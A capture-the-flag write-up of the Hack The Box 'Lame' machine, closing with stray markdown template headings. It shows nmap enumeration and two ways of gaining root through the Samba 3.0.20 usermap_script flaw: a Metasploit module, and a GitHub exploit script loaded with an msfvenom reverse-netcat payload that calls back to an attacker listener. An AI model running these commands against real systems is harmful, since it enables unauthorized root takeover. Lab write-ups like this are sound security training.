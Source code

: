 # Lame - 10.10.10.3
![](/images/lame/1. lame.png "Lame Info Card")

Contents:

1. TOC
{:toc}
<p>&nbsp;</p>
## Scanning and Enumeration
<p>&nbsp;</p>
We start with a basic nmap scan to see what ports are open:

    nmap -A -T4 10.10.10.3

![](/images/lame/2. nmap.png "nmap results")
![](/images/lame/3. nmap_2.png "nmap results")

So we have ftp, ssh, and smb open.  Normally it would be worth exploring ftp to see if we can access any files that may contain ssh creds since ssh is open as well.  From what we can tell so far, this appears to be some sort of Debian-based Linux machine.

In this case though we see a Unix Samba version - Samba 3.0.20, so let's try searching for that.

![](/images/lame/4. google_samba_exploit.png "Google: Samba 3.0.20-debian exploit")

→ So we have a rapid7 (metasploit) result as well as an exploitdb result.  Let's open both:

https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script

https://www.exploit-db.com/exploits/16320


## Exploitation using Metasploit


https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script

→ The rapid7 website has the following instructions for using the metasploit module:

![](/images/lame/5. metasploit options.png "rapid7 website")

→ So let's try them.  Load up msfconsole and follow the steps:

    use exploit/multi/samba/usermap_script

    show options

![](/images/lame/6. msf_1.png "metasploit")

    set rhosts 10.10.10.3

    show targets

![](/images/lame/7. msf_2.png "metasploit")


We have set the remote host (rhosts, aka the target), and the only target available is Automatic. Let's try and run it.

    run

![](/images/lame/8. msf_3.png "metasploit")

[+] Success!  We are root.  

Notice this shell does not give a prompt after the initial connection.  After you see the “Command shell session 1 opened...”  you should have a shell and be able to enter commands.

Let's go get some flags.

    cat /home/makis/user.txt

    cat /root/root.txt

![](/images/lame/9. user_flag.png "user flag")

![](/images/lame/10. root_flag.png "root flag")

And there we have our user and root flags.


## Manual Exploitation








https://www.exploit-db.com/exploits/16320

![](/images/lame/11. exploit_db.png "exploit-db entry")

In this case, the exploit-db entry is the Metasploit module.  Let's go back to Google and try to find something elsewhere:

![](/images/lame/12. google.png "google for the win")

Let's try this one. It contains a python script we should be able to modify to our needs.

![](/images/lame/13. github_exploit.png "exploit on github")

Click on the “Raw” and then copy/paste the code into your own python file. I'm calling mine “samba-exploit.py”

I'm using gedit, but feel free to use your text editor of choice. In your samba-exploit.py file, check out the following section:

![](/images/lame/14. edit_code.png "initial shellode")

Here we need to generate our own shellcode and then use it to replace all the "buf =" and "buf +=" lines.  Let's get to it:

    msfvenom -p cmd/unix/reverse_netcat LHOST=10.10.14.24 LPORT=9997 -f python

Make sure you use your own IP address for the LHOST. 

This command may take a few moments to run and generate the shellcode.

![](/images/lame/15. msfvenom.png "msfvenom for shellcode")

Now copy/paste the generated shellcode into your samba-exploit.py:

![](/images/lame/16. edit_shellcode.png "editing the shellcode")

→ Notice I also replaced the comment above the shellcode with the actual msfvenom command I used. This is good practice if I ever need to refer back to this code.

→ Next, save the samba-exploit.py file and then chmod +x it to make it executable, then we can try and run it with no options:

   ⇒ chmod +x samba-exploit.py

   ⇒ ./samba-exploit.py

![](/images/lame/17. chmod.png "chmod the script")

→ Looks simple - just add the IP address of the target.  First though we need to set up our listener to catch the callback.  In a separate terminal window, run:

   ⇒ nc -lvnp 9997   

   ⇒ Note: This port must match whatever port number your chose for LPORT= in your shellcode

![](/images/lame/18. nc_listen.png "listener setup")

→ Now in the first terminal window we can run the exploit!

   ⇒ ./samba-exploit.py 10.10.10.3

![](/images/lame/19. samba_exploit.png "execute the exploit")

→ This will appear to hang, that is normal.  Over in your second terminal window with the nc listener you should see:

![](/images/lame/20. nc_connect.png "nc reverse shell connection")

→ Notice in the above I already ran the “whoami” command...and we are root!  Success!

→ Let's go get some flags:

![](/images/lame/21. flags.png "flags")

→ And there you have it, our user and root flags.



## Basic formatting

You can use *italics*, **bold**, `code font text`, and create [links](https://www.markdownguide.org/cheat-sheet/). Here's a footnote [^1]. Here's a horizontal rule:


## Images

![rax logo](/images/rax_intel.jpg)

## Code
